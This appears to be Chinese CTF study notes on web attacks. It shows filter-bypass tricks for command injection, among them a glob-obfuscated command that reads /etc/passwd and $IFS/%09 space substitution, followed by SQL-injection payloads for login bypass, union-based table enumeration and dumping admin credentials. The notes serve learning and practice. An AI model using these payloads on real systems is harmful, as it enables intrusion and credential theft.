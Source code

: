 ```plain
system (*/???/?at   /e't'c/*ss*');
```

<font style="color:#000000;"></font>

<font style="color:#000000;">在遇到空格被过滤的情况下，通常使用%09也就是TAB的URL编码来绕过，在终端环境下空格被视为一个命令分隔符，本质上由$IFS变量控制，而$IFS的默认值是空格、制表符和换行符，所以我们还可以通过直接键入$IFS来绕过空格过滤。</font>

<font style="color:#000000;"></font>

<font style="color:#000000;">大多数UNIX系统命令从你的终端接受输入并将所产生的输出发送回到您的终端。一个命令通常从一个叫标准输入的地方读取输入，默认情况下，这恰好是你的终端。同样，一个命令通常将其输出写入到标准输出，默认情况下，这也是你的终端——这些是命令有回显的基础。如果希望执行某个命令，但又不希望在屏幕上显示输出结果，那么可以将输出重定向到/dev/null；</font>

<font style="color:#000000;">/dev/null 是一个特殊的文件，写入到它的内容都会被丢弃；如果尝试从该文件读取内容，那么什么也读不到。但是/dev/null文件非常有用，将命令的输出重定向到它，会起到“禁止输出”的效果如果希望屏蔽stdout和stderr，可以这样写：</font>

```plain
$ command  >  /dev/null   2>&1
```

<font style="color:#000000;">如果想要绕过此限制，那么就想方设法的</font><font style="color:#000000;">将cat /flag的输出重定向到一个临时文件中，然后再通过其他命令读取这个临时文件的内容，以达到读取flag的效果</font>



SQL注入语句：

SQL注入大致分为联合注入、布尔盲注、延时盲注和报错注入这次主要是联合注入笔记

万能密码：1

基本注入语句：

```plain
select * from users where username = 'admin' OR '1'='1' and password = 'anything';
```

联合注入:

```plain
select * from person where id = 1 union select 1,2,database(),4,5
```

注意，两者字段数必须相等，判断字段数时，可以使用order by num,一次增大num，直到出现错误就结束来判断字段数是num-1

```plain
select * from person where id = 1 union select 1,2,(select table_name from infomation_schema.tables where table_schema=database() limit 0,1),4,5
```

可以使用limit对查询的对象限定，注意限定列表是从0开始

```plain
select * from person where id = 1 union select 1,2,(select group_concat(table_name) from infomation_schema.tables where table_schema=database() limit 0,1),4,5
```

使用group_concat联合表名也可以

如果是查询具体数据：

```plain
select * from person where id = 1 union select 1,concat(usernamme,0x5c,passward),3,4,5 from admin;
```
